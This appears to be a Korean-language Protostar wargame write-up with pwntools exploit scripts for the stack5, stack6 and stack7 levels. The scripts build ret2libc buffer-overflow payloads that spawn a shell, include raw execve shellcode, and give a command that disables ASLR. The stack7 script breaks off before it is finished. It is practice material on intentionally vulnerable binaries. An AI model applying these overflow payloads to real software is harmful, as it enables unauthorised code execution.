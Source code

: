 
파이썬 코드
```python stack5.py

from pwn import * 

system = p32(0xf7e117e0)
dummy  = p32(0xFFFFFFFF)
bin_sh = p32(0xf7f50968)
offset = 76

payload = 'A'*offset + system + dummy + bin_sh

p = process(['stack5'])
p.sendline(payload)
p.interactive()
```
=======================================================

## 프로토스타 - 10. stack6 함정을 지나 ret하기

- 칼리에서 32bit 프로그램 실행을 위한 라이브러리
> sudo apt install lib32z1

> ret and 0xbf000000 == 0xbf000000

```python stack6.py

from pwn import * 

system = p32(0xf7e117e0)
dummy  = p32(0xFFFFFFFF)
bin_sh = p32(0xf7f50968)
offset = 80

payload = 'A'*offset + system + dummy + bin_sh

p = process(['stack6'])
p.sendline(payload)
p.interactive()
```
=======================================================

## 프로토스타 - 11. stack7 jmpcall을 사용한 우회 방법

- 칼리리눅스 ASLR 끄기
> echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

```python stack7.py

from pwn import * 

buf =  ""
buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
buf += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x56\x57\x48\x89\xe6\x0f\x05"


system = p64(0x7ffff7e345d0)
dummy  = p64(0xFFFFFFFFFFFFFFFF)
bin_sh = p64(0x7ffff7f70573)
jmp_rsp = p64(0x4007f3)
offset = 88

payload = 'A'*offset + system + dummy + bin_sh
```